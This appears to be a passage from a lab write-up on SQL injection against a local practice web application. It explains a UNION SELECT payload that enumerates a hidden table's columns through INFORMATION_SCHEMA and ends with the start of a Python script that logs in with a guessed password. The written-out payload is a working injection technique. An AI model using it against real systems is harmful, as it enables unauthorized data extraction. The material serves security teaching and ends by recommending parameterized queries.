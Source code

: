 5. **Crafting the Second Payload:**
   The second payload `1' UNION SELECT 1, 2, column_name, 4, 5 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='secure_programmingAAAAAAAAAAAAA' -- ` is designed to:
   - `1`, `2`, `4`, and `5` are dummy values to match the expected number of columns.
   - `column_name` is a column from the `INFORMATION_SCHEMA.COLUMNS` table that contains all column names of a specific table.
   - The condition `WHERE table_name='secure_programmingAAAAAAAAAAAAA'` ensures that only the columns of the hidden table are retrieved.
   - `--` comments out the rest of the original query, effectively ignoring it.

6. **Executing the Second Payload:**
   By submitting this payload through the search form, the application runs the modified query and includes the column names in the search results.

7. **Extracting the Column Names:**
   The script parses the HTML response to locate the table containing the search results. It iterates through the rows to find and display all column names of the hidden table `secure_programmingAAAAAAAAAAAAA`.

#### Python Script Usage
The provided Python script automates this injection process:
- It sends a POST request with the crafted payload to retrieve the table names.
- Parses the response to identify the hidden table.
- Sends another POST request with the payload to retrieve the columns of the hidden table.
- Parses the response to display the column names.

By running this script, we successfully discovered the hidden table `secure_programmingAAAAAAAAAAAAA` and extracted its columns `cyberHour` and `cyberId`, demonstrating the impact of SQL injection on insecure web applications.

### Summary
The SQL injection worked by leveraging the UNION SELECT statement to retrieve metadata from the database's information schema. Identifying the hidden table and its columns highlights the importance of securing SQL queries against injection attacks by using prepared statements or parameterized queries.


```python
import requests
from bs4 import BeautifulSoup
from IPython.display import display, HTML

# URL of the login and search pages
login_url = 'http://localhost:8000/login.php'
search_url = 'http://localhost:8000/searchproducts.php'

# Credentials for login
username = 'bob'
password = 'password'  # Assuming the password for bob is 'password'

# Create a session to persist cookies
session = requests.Session()

# Data to be sent in the POST request for login
login_data = {
    'uid': username,
    'password': password
}

# Send the POST request to login
login_response = session.post(login_url, data=login_data)

# Check if login was successful by looking for a specific element or text in the login_response
if 'Welcome bob' in login_response.text:
    print("Successfully logged in as bob")

```